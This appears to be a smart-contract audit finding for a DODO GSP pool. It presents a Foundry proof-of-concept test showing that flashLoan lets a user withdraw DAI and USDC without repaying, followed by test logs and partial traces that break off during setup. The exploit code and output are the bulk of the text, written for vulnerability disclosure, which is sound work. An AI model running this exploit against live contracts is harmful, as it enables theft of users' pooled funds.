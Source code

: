 ```solidity

        emit DODOFlashLoan(msg.sender, assetTo, baseAmount, quoteAmount);
    }

```
Here's my POC to better explain this issue
just copy and paste into GPSTrader.t.sol
```solidity
function test_flashloan_Isnt_repaid() public {
        // transfer some tokens to GSP
        vm.startPrank(DAI_WHALE);
        dai.transfer(address(gsp), BASE_RESERVE + BASE_INPUT);
        vm.stopPrank();
        vm.startPrank(USDC_WHALE);
        usdc.transfer(address(gsp), QUOTE_RESERVE + QUOTE_INPUT);
        vm.stopPrank();



        vm.startPrank(USER);
        //buy shares to make _BASE_TARGET_ > 0
        //gsp.buyShares(USER);

        // record user's previous balance
        uint256 baseBalanceBefore = dai.balanceOf(USER);
        uint256 quoteBalanceBefore = usdc.balanceOf(USER);
        console.log(baseBalanceBefore, quoteBalanceBefore);// 0,0 here

        // flashloan
        gsp.flashLoan(BASE_INPUT, QUOTE_INPUT, USER, "");
        
        //confirm that user received tokens without paying back.
        uint256 baseBalanceAfter = dai.balanceOf(USER);
        uint256 quoteBalanceAfter = usdc.balanceOf(USER);
        console.log(baseBalanceAfter, quoteBalanceAfter);//  1000000000000000000, 2000000 here


        vm.stopPrank();
        
    }

```
run with forge test --fork-url https://eth-mainnet.g.alchemy.com/v2/ YOUR API ID
```bash
Running 1 test for test/GPSTrader.t.sol:TestGSPTrader
[PASS] test_flashloan_Isnt_repaid() (gas: 208159)
Logs:
  0 0 <----@here User prev balance before flashLoan
  1000000000000000000 2000000 <----@here user balance after the flashLoan

Traces:
  [8919418] TestGSPTrader::setUp()
    ├─ [3770561] → new DeployGSP@0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
    │   └─ ← 18721 bytes of code
    ├─ [3910972] DeployGSP::run()
    │   ├─ [3666702] → new GSP@0x104fBc016F4bb334D775a19E8A6510109AC63E00
    │   │   └─ ← 18081 bytes of code
    │   ├─ [207009] GSP::init(0x95C4F5b83aA70810D4f142d58e5F7242Bd891CB0, 0x6B175474E89094C44Da98b954EedeAC495271d0F, 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, 0, 10000000000000 [1e13], 1000000 [1e6], 500000000000000 [5e14], false)
    │   │   └─ ← ()
    │   └─ ← GSP: [0x104fBc016F4bb334D775a19E8A6510109AC63E00]
    ├─ [510409] → new MockERC20@0x2e234DAe75C793f67A35089C9d99245E1C58470b
    │   └─ ← 2208 bytes of code
```